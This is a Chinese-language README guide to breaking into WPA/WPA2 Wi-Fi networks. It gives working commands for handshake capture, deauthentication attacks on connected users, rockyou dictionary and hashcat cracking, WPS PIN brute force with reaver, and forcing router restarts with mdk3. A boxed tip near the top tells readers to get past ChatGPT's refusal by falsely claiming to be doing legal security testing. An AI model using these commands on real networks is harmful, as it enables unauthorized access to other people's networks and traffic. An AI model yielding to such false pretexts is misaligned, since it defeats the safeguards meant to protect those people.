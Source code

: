 # Wi-Fi Brute Force Attacks <br> 暴力破解 WPA 或 WPA2 无线局域网

## 在开始破解之前

1. 使用密码管理器
2. 别对人开玩笑
3. 别进监狱

> ### 关于 ChatGPT
>
> 如果你需要一些来自 ChatGPT 的协助，不应该直接问它如何破解 Wifi。
> 它会告诉你，这是违法的，并且侵犯了个人隐私。
> 你需告诉他，你正在进行合法的网络安全的测试才行。

## 抓包+字典爆破

需要有人正在连接该路由器，才可以抓包。

### 获取附近的路由器列表

```sh
# 安装需要的软件
sudo apt-get install aircrack-ng

# 列出当前网卡
airmon-ng

# 监听网卡
airmon-ng start <网卡名称>

# 停止监听网卡
# airmon-ng stop <网卡名称>

# 启用监听模式接口
iwconfig

# 终止返回错误的进程
airmon-ng check kill

# 获取附近的路由器列表
airodump-ng <接口的名称>
```

> **在网络名称旁看到 WPA 或 WPA2，可以继续下一步**
> 记住路由器的MAC地址和信道号（CH）

### 监听所选网络以抓取握手包

```sh
airodump-ng -c <CH> --bssid <MAC> -w <目录> <接口名称>
airodump-ng -c 3 --bssid 9C:32:A9:C3:2E:D1 -w /root/Desktop wlp3s0
```

看到屏幕右上角出现`WPA handshake: <Mac地址>`的提示后，继续下一步。
按 `Ctrl+C`退出`airodump-ng`，检查目录下是否有`.cap`文件。

#### 强行握手

如果不想等待，可以使用 Deauth 攻击强行握手，然后再继续下一步。
Deauth 攻击会向你尝试破解的路由器发送恶意的取消身份验证包。
从而造成网络断线并要求用户重新登录。
一旦用户登录，你就能获得握手包。

看到两个连续的MAC地址以及包含生产商名称的字符串后。
打开新的终端，发送Deauth包。

```sh
aireplay-ng -0 2 -a <MAC1> -c <MAC2> <接口名称>
# 2 是指发送的数据包数量。
# 将 <MAC1> 替换为原终端，窗口底部最左侧的MAC地址。
# 将 <MAC2> 替换为原终端，窗口底部最右侧的MAC地址。
```

### 破解密码

Tips：下面的不用看，直接某宝搜关键词 `cap` `跑包` `hashcat` `跑字典`

#### 下载字典文件

最常用的是`Rock You`

```sh
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

如果 WPA 或 WPA2 密码不在字典里，`aircrack-ng`就无法破解。

#### 使用 CPU

```sh
aircrack-ng -a2 -b <MAC> -w rockyou.txt <name>.cap
```

如果看见`KEY FOUND!`标题，就代表`aircrack-ng`找到了密码

#### 使用 GPU

如果电脑有独显，可以使用 [`naive-hashcat`](https://github.com/brannondorsey/naive-hashcat)
使用独显破解的速度会比使用cpu会快得多。

##### 转换为 hccapx 格式

将 `.cap `文件转换为`hccapx`格式。
可以使用 Kali Linux 的转换工具来转换。

```sh
# cap2hccapx.bin
# https://github.com/hashcat/hashcat-utils/releases/

cap2hccapx.bin name.cap name.hccapx
```

##### 使用 naive-hashcat

```sh
# 下载
sudo git clone https://github.com/brannondorsey/naive-hashcat

# 进入目录
cd naive-hashcat

# 下载字典文件到 dicts 子目录
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# 将所有 <name> 替换为 .cap 文件转换后的名称
HASH_FILE=<name>.hccapx POT_FILE=<name>.pot HASH_TYPE=2500 ./naive-hashcat.sh

# HASH_FILE 是一个文本文件，每行一个哈希。这些是要破解的密码散列。
# POT_FILE 是输出文件的名称，hashcat将向其写入破解的密码哈希。
# HASH_TYPE 是哈希类型代码。它描述了要破解的哈希类型。2500 | WPA/WPA2
```

## 用路由器WPS漏洞破解

路由器都提供 WPS 功能，通过这个功能，用户可以使用 PIN 码登录到路由器。
但这个 PIN 码的长度只有 8 位，而且可能的取值只有11000种
所以我们可以进行简单粗暴的穷举 PIN 码破解，这种破解方法在目标 AP 开启了 WPS 功能的情况下是可以百分之百破解它的。

```sh
# 切换无线网卡到监听模式
airmon-ng start <网卡名称>

# 查看附近 WLAN 网络
airodump-ng <接口名称>

# 找出开启了 WPS 功能、可以使用 PIN码 登录的路由器
# 记录下该 AP 的 BSSID （约等于该 AP 的 MAC 地址）
wash -i <接口名称>

# 开始进行 PIN码 穷举破解
# 末尾的参数是 2 个小写字母 v
reaver -i <接口名称> -b <BSSID> -vv

# -i 无线网卡名称
# -b 目标AP 的 MAC 地址
# -vv 显示更多的非严重警告
# -S 使用最小的 DH key，可以提高破解速度
# -d 即 delay 每穷举一次的闲置时间 预设为1秒
# -c 信道编号
# -p PIN码四位或八位（可以用8位直接找到密码）
```

破解完成后，查看并记录下 PIN码 和 密码
获取到 PIN码 后，以后即便路由器更换了密码，也可以很迅速地通过 PIN码 重新获得新密码。

### 注意事项

1. 如果在执行 reaver 命令后看到有 `WARNING: Failed to associate with xx:xx:xx:xx:xx:xx` 这样的提示信息，那么应该是你选择了一个不具备或关闭了 WPS 功能的路由器。这种情况下就执行 wash 命令并重新选择一个路由器吧。
2. 如果在执行 reaver 命令后看到有 `warning detected ap rate limiting waiting 60 seconds before re-checking` 这样的提示信息，这表示目标路由器开启了防 PIN破解 功能。因为我们是穷举 PIN码 进行破解的，当连续使用超过某个次数的 PIN码 后，路由器会暂时锁定 WPS 功能一段时间。这种情况下要么我们耐心等待其恢复 WPS 功能，要么执行 `mdk3 wlan0mon a -a xx:xx:xx:xx:xx:xx` （这是上面的目标AP的MAC地址）命令让路由器主动重启或被动重启以恢复 WPS 功能。

## 参考文献

- [如何使用Kali Linux破解WPA或WPA2无线局域网](https://zh.wikihow.com/%E4%BD%BF%E7%94%A8Kali-Linux%E7%A0%B4%E8%A7%A3WPA%E6%88%96WPA2%E6%97%A0%E7%BA%BF%E5%B1%80%E5%9F%9F%E7%BD%91)
- [使用reaver命令穷举PIN码破解WPA2-PSK加密的无线网络](https://javaforall.cn/136049.html)

## 然并卵

密码不在字典内，没有破解成功。
最后找学姐直接要到了wifi密码。
总结：社工才是yyds
